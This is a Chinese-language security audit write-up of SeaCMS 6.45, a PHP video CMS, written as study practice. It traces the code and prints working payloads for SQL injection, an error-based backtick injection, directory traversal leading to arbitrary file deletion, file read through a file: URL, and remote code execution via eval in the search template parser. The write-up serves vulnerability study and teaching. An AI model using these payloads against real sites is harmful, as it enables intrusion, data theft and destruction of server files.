










0x01 简介 SeaCMS 是一套专为不同需求的站长而设计的视频点播系统，也曾爆出过很多经典的漏洞，现在仍在维护，最新版本是 v12.x
本次代码审计选择的版本是 SeaCMS 6.45，活跃时间大概在2015年，因为这个版本存在很多有趣的漏洞，十分适合我们练手
0x02 全局分析 网站首页 index.php
index.php
SeaCMS 和 BlueCMS 的网站首页差不多，加载其他文件处理关键逻辑，然后借助模板输出网页视图。SeaCMS 并没有采用Smarty模板引擎处理
1 2 3 4 require_once ("include/common.php" );require_once sea_INC."/main.class.php" ;
common.php
include/common.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 require_once ($_SERVER ['DOCUMENT_ROOT' ].'/360safe/360webscan.php' );require_once ( sea_INC.'/inc/mysql.php' );require_once (sea_INC.'/common.func.php' );foreach ($_REQUEST as $_k =>$_v )if ( strlen($_k )>0 && m_eregi('^(cfg_|GLOBALS)' ,$_k ) && !isset ($_COOKIE [$_k ]) )exit ('Request var not allow!' );foreach (Array ('_GET' ,'_POST' ,'_COOKIE' ) as $_request )foreach ($$_request as $_k => $_v ) ${$_k } = _RunMagicQuotes($_v );require_once (sea_DATA.'/common.inc.php' );require_once (sea_DATA."/config.cache.inc.php" );$cfg_templets_dir = 'templets' ;if ($_FILES )require_once (sea_INC.'/uploadsafe.inc.php' );require_once (sea_INC.'/sql.class.php' );
重点关注common.php 对变量的处理，首先程序禁止GPC变量为系统的全局变量或 cfg_ 配置变量，然后全局对GPC数据做addslashes()过滤，没有过滤 $_SERVER 。注意这里通过 $$ 的方式直接把GPC的变量注册到系统中，可能会造成变量覆盖漏洞的问题
加载的 common.func.php 含有大量的基础函数，其中还有 RemoveXSS() 这种方法过滤 xss 代码，需要调用才能实现
注意到SeaCMS 对文件上传也有全局处理，跟踪下这个文件 include/uploadsafe.inc.php
这里通过黑名单方式禁用了很多以文件后缀，如果服务器只解析 php 后缀的文件，我们则很难绕过这个
1 2 3 4 5 6 7 8 $cfg_not_allowall = "php|pl|cgi|asp|asa|cer|aspx|jsp|php3|shtm|shtml" ;foreach ($_FILES as $_key =>$_value )if (!empty (${$_key .'_name' }) && (m_eregi("\.(" .$cfg_not_allowall .")$" ,${$_key .'_name' }) || !m_ereg("\." ,${$_key .'_name' })) )exit ('Upload filetype not allow !' );
后台入口 index.php 前台的功能点一般比较少，很多时候需要通过后台的功能点才能获取到shell，bluecms就是通过后台获取的shell。下面分析一下后台入口文件 index.php 的流程
admin/index.php
下面是 admin/index.php 的全部代码，写的十分简单，可以看到具体逻辑还是交给了加载的文件，我们还需要分析加载的代码
1 2 3 4 5 6 7 8 9 10 11 12 <?php require_once (dirname(__FILE__ )."/config.php" );require_once (sea_ADMIN.'/inc_menu.php' );$defaultIcoFile = sea_ROOT.'/data/admin/quickmenu.txt' ;$myIcoFile = sea_ROOT.'/data/admin/quickmenu-' .$cuserLogin ->getUserID().'.txt' ;if (!file_exists($myIcoFile )) {$myIcoFile = $defaultIcoFile ;include (sea_ADMIN.'/templets/index.htm' );
admin/config.php
admin/config.php
加载了和首页index.php相同的common.php，这里能知道 BlueCMS 后台也做了全局安全过滤和其他的操作
加载了check.admin.php，该类定义了userLogin类，用于用户的身份认证，所以加载了 config.php 的文件基本可以认定是需要登陆后台。SeaCMS 主要通过session来认证用户身份，没有通过认证的将会跳转到登陆页面。因为我没有看出SeaCMS的认证缺陷，这里就不多分析具体的逻辑了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 require_once (sea_ADMIN."/../include/common.php" );require_once (sea_INC."/check.admin.php" );$cuserLogin = new userLogin();$hashstr =md5($cfg_dbpwd .$cfg_dbname .$cfg_dbuser );if ($cuserLogin ->getUserID()==-1 OR $_SESSION ['hashstr' ] !== $hashstr )"location:login.php?gotopage=" .urlencode($EkNowurl ));exit ();function makeTopicSelect (function getTemplateType ( ……
后台页面的视图
admin/templets/index.htm
SeaCMS 也有用到 iframe 让 index.php 可以成为入口文件，和BlueCMS不同的是，SeaCMS在菜单栏上并没有使用iframe，而是使用大量php代码+HTML代码来实现，看起来十分困难
从这里也能感受到早期CMS在视图呈现上的常用方式，它们通常在php代码中保存要输出的信息，然后通过加载一个htm的静态页面，在静态页面中穿插部分php代码，从而呈现出视图。看到这也不免期待使用 MVC 架构的程序实现视图的方案
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <table cellpadding ="0" cellspacing ="0" width ="100%" height ="100%" > <tr > <td colspan ="3" height ="90" > <div class ="header" > </div > </td > </tr > <tr > <td > #左部菜单和footer，主要显示inc_menu.php中的数据</td > <td valign ="top" class ="maincontent" > #主题内容通过iframe实现<iframe src ="index_body.php" name ="I2" width ="100%" height ="100%" frameborder ="0" scrolling ="yes" style ="overflow: visible;" > </iframe > </td > </tr > </table >
0x03 挖洞记录 Seacms 前台除了有一个代码执行的漏洞，没有发现其他什么漏洞，大多数漏洞都在后台。因为前台的代码执行漏洞有点复杂，我放到最后解析
SQL注入 前台sql注入
comment/api/index.php
这个前台sql注入稍微有点复杂，但代码审计的关键是一击致命，下面放出一眼应该看出存在漏洞的两行代码:
我们知道addslashs()主要是过滤引号的sql注入，其中$type, $ids并没有被引号包裹，如果我们找出这两个参数可控，那么这个sql注入就可利用了
1 2 $sql = "SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea_comment WHERE m_type=$type AND id in ($ids ) ORDER BY id DESC" ;$dsql ->setQuery($sql );
然后再细看代码：
$type 默认为1，而且会经过 is_numeric() 数字类参数的判断，故该参数不能利用，同样的$id，$page也只能控制为数字类的参数$page<2 可能会提前退出程序，所以最好控制 $page>=2 最后最执行ReadData()函数，跟进该函数，当 $id>0 （来自$gid）时会调用Readmlist(), Readrlist()
传入 Readrlist() 的参数来自 $ids = $x = implode(',',$rlist)，即 $rlist，该参数可控，implode()是把数组参数转换为字符串， 所以 $ids 可控，那么上面的代码漏洞存在
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 require_once ("../../include/common.php" );$id = (isset ($gid ) && is_numeric($gid )) ? $gid : 0 ;$page = (isset ($page ) && is_numeric($page )) ? $page : 1 ;$type = (isset ($type ) && is_numeric($type )) ? $type : 1 ;if ($page <2 )if (file_exists($jsoncachefile ))$json =LoadFile($jsoncachefile );die ($json );$h = ReadData($id ,$page );function ReadData ($id ,$page global $type ,$pCount ,$rlist ;$ret = array ("" ,"" ,$page ,0 ,10 ,$type ,$id );if ($id >0 )$ret [0 ] = Readmlist($id ,$page ,$ret [4 ]);$ret [3 ] = $pCount ;$x = implode(',' ,$rlist );if (!empty ($x ))$ret [1 ] = Readrlist($x ,1 ,10000 );$readData = FormatJson($ret );return $readData ;function Readrlist ($ids ,$page ,$size global $dsql ,$type ;$sql = "SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea_comment WHERE m_type=$type AND id in ($ids ) ORDER BY id DESC" ;$dsql ->setQuery($sql );
现在我们就需要构造一个poc，上面我们知道，需要的条件有：1、**$page>=2** ；2、**$gid>0；3、 $rlist** 为数组
最终构造的POC：
1 http://seacms.test:8888/comment/api/index.php?gid=1&page=2&rlist [
注意绕过SeaCMS内置的waf

像这种漏洞通过黑盒测试是很难测出来的，如果通过代码审计找到这个漏洞就会比较有成就感
后台反引号sql注入
admin/admin_database.php
这是一个很典型的sql注入漏洞，使用 addslashes() 只能过滤掉单引号的注入，使用反引号包裹变量可以绕过，反引号一般用于包裹表名，可以利用下面的正则全局搜索一下
便可以找到 admin_database.php 存在这样的代码：
admin_database.php 加载了 config.php，就会对GPC数据过滤并注册、验证登陆状态
通过控制 $action=="bak"，$nowtable不为空，就可以成功执行
1 Select * From `$nowtable`
而 $nowtable 不为空且可控，可以通过该值传入sql语句。这里就是常见的反引号包裹表名绕过单引号过滤导致的SQL注入
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 require_once (dirname(__FILE__ )."/config.php" );elseif ($action =="bak" )$tables = explode(',' ,$tablearr );if (empty ($tablearr ))'你没选中任何表！' ,'admin_database.php' );exit ();if ($nowtable =='' )else $dsql ->SetQuery("Select * From `$nowtable ` " );$dsql ->Execute();while ($row2 = $dsql ->GetArray())for ($i =0 ;$i <count($tables );$i ++)if ($tables [$i ]==$nowtable )if (isset ($tables [$i +1 ]))$nowtable = $tables [$i +1 ];$startpos = 0 ;break ;else "完成所有数据备份！" ,"" );'Location:admin_database.php' );exit ();$doneForm ="<form name='gonext' method='post' action='admin_database.php?action=bak'>"
但我这里遇到两个小问题：
1）构造sql报错语句
该处为闭合表名注入sql语句，最好的方式是构造报错语句。一般遇到的sql注入都是在where处，此处sql注入位于表名，最好注入where语句，如下：
1 SELECT * FROM `sea_admin` WHERE 1 = extractvalue(1 ,concat(0x7e ,DATABASE()));
这个前提是要知道存在的表名，否则会因为表名不存在报错而没有执行我们注入的报错语句
表名一般都很好猜测，其次这里既然是参数传来，我们抓包应该也能获取到
2）循环备份逻辑干扰结果判断
详细读了代码，发现注入sql语句会导致网站一直循环备份，影响sql注入的结果，我没有找到停止循环的方式，很烦。
不过该处的循环方式采用的是自动发起一个form表单，相当于再次访问该网页。于是我便用burp来发包，确保只看第一个数据包

目录穿越 这一个就比较有意思了，在Seay扫描结果中发现一个可能任意文件删除

现在浏览器中打开该网页，有种目录遍历的感觉呀

查看代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 require_once (dirname(__FILE__ )."/config.php" );if (empty ($action ))$action = '' ;$dirTemplate ="../templets" ;if ($action =='edit' ){}elseif ($action =='del' ){}elseif ($action =='add' ){}else if (empty ($path )) $path =$dirTemplate ; else $path =strtolower($path );if (substr($path ,0 ,11 )!=$dirTemplate ){"只允许编辑templets目录！" ,"admin_template.php" );exit ;$flist =getFolderList($path );include (sea_ADMIN.'/templets/admin_template.htm' );exit ();
截取 $path 前11位字符，如果不等于 ../templets 则直接退出
前11位字符控制了，但我们还可以控制后面的字符：../templets/../../

到这，我们有了整个操作系统文件的基础控制权，包括浏览，删除等操作
具体看了seacms提供的功能，对应每个文件都会有删除功能，而且同样只限制了前11位字符，可以绕过实现任意文件删除，而且此处因为可以浏览操作系统中存在哪些文件，于是删除哪些文件都能知道路径，做到「真任意文件删除」
另外本处只能通过编辑 功能查看部分后缀文件，虽然有限，但同样能看到操作系统中的所有符合要求的文件
1 2 3 4 5 if ($filetype !="html" && $filetype !="htm" && $filetype !="js" && $filetype !="css" && $filetype !="txt" )"操作被禁止！" ,"admin_template.php" );exit ;
任意文件读取
admin/templets/admin_collect_ruleadd2.htm
这个htm文件通过 file_get_contents() 读取 $siteurl 的内容
1 2 3 4 5 6 <?php $content = !empty ($showcode )?@file_get_contents($siteurl ):'' ;$content = $coding =='gb2312' ?gbutf8($content ):$content ;if (!$content ) echo "读取URL出错" ;echo htmlspecialchars($content );
全局搜索包含admin_collect_ruleadd2.htm的文件，发现admin/admin_collect.php和admin/admin_collect_news.php两个文件均有包含，大致看了内容差不多，按照里面的逻辑构造，利用变量覆盖，最终构造payload如下：
1 2 POST:http:2 &itemname=1 &siteurl=file:
效果：

在php中file_get_contents()也可以造成SSRF漏洞
代码执行 逆向分析
include/main.class.php
该文件有5个差不多的eval语句，具体逻辑有点复杂，我们先直接查看关键语句，可能会被eval执行的$strIf基本来自$content
1 2 3 4 5 6 7 8 function parseIf ($content $labelRule = buildregx("{if:(.*?)}(.*?){end if}" ,"is" );$labelRule ,$content ,$iar );$strIf =$iar [1 ][$m ];eval ("if(" .$strIf ."){\$ifFlag=true;}else{\$ifFlag=false;}" );
然后追踪一下parseIf()函数
search.php
其中 $content 来自一个缓存文件，为搜索结果展示给用户的 HTML 页面
在 echoSearchPage() 中，将会对 $content 部分内容做定制替换
最后 $content 将被 patseIf() 执行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 require_once ("include/common.php" );require_once (sea_INC."/main.class.php" );foreach ($_GET as $k =>$v )$$k =_RunMagicQuotes(gbutf8(RemoveXSS($v )));$schwhere .= "&$k =" .urlencode($$k );$page = (isset ($page ) && is_numeric($page )) ? $page : 1 ;function echoSearchPage (if (intval($searchtype )==5 )$searchTemplatePath = "/templets/" .$GLOBALS ['cfg_df_style' ]."/" .$GLOBALS ['cfg_df_html' ]."/cascade.html" ;$content = str_replace("{searchpage:page}" ,$page ,$content );$content = str_replace("{seacms:searchword}" ,$searchword ,$content );$content = str_replace("{seacms:searchnum}" ,$TotalResult ,$content );$content = str_replace("{searchpage:ordername}" ,$order ,$content );$content =$mainClassObj ->parseIf($content );
通过 search.php 的代码可以知道的是该文件具有单独执行能力且位于前台，该文件单独对GPC数据做了全局过滤，同样使用了$$的方式赋值GPC数据，可能造成变量覆盖的问题，从而导致在$content替换的内容上我们可控，最终控制parseIf 中 eval()参数，从造成任意代码执行的漏洞。
以上粗略估计可能存在任意代码执行的漏洞，但程序中变量传递十分复杂，变量能否按我们的需求传递到eval()中执行还不知道，追踪一个参数看看具体过程是否可以实现
正向利用 我们可以通过$page、$searchword、$TotalResult、$order等参数控制$content的部分内容，其中只有$order是完全可控的。$order替换的内容是{searchpage:ordername}，在全局搜索中只有cascade.html文件具有这些信息
当$searchtype==5时，$content文件的内容来自于cascade.html，这个文件内容具有以下关键信息：
1 2 3 <a href ="{searchpage:order-time-link}" {if: "{searchpage:ordername }"=="time" } class ="btn btn-success" {else } class ="btn btn-default" {end if } id ="orderhits" > 最新上映</a > <a href ="{searchpage:order-hit-link}" {if: "{searchpage:ordername }"=="hit" } class ="btn btn-success" {else } class ="btn btn-default" {end if } id ="orderaddtime" > 最近热播</a > <a href ="{searchpage:order-score-link}" {if: "{searchpage:ordername }"=="score" } class ="btn btn-success" {else } class ="btn btn-default" {end if } id ="ordergold" > 评分最高</a >
便可以通过$order参数替换$content中的{searchpage:ordername}。
至于需要构造什么样的内容，要看 parseif() 解析什么内容，程序代码太复杂，直接打断点看 parseIf() 中匹配 $content 使用的正则为：/{if:(.*?)}(.*?){end if}/is

正则表达式 /{if:(.*?)}(.*?){end if}/is 的匹配结果将会有两个匹配子组，最终匹配结果为 $iar 数组，其中 $iar[0] 为整个匹配结果，$iar[1] 和 $iar[2] 为两个匹配子组

其中 eval() 要执行的 $strIf 来自 $iar[1] 即第一个匹配子组

那么我们现在要构造的结果内容就清晰了，构造逻辑大致如下：
代码执行的payload如下：
1 searchtype=5&searchword =d&order =}{end if }{if :1)phpinfo();if (1}{end if }
payload执行流程如下：

0x04 总结 通过审计 SeaCMS 主要学习他的程序逻辑，而且 SeaCMS 还有几个有趣的漏洞，审计下来收获颇丰
参考：
海洋cms官网：https://www.seacms.net/
https://github.com/SukaraLin/php_code_audit_project
seacms多个版本的代码执行漏洞：https://github.com/jiangsir404/PHP-code-audit/tree/master/seacms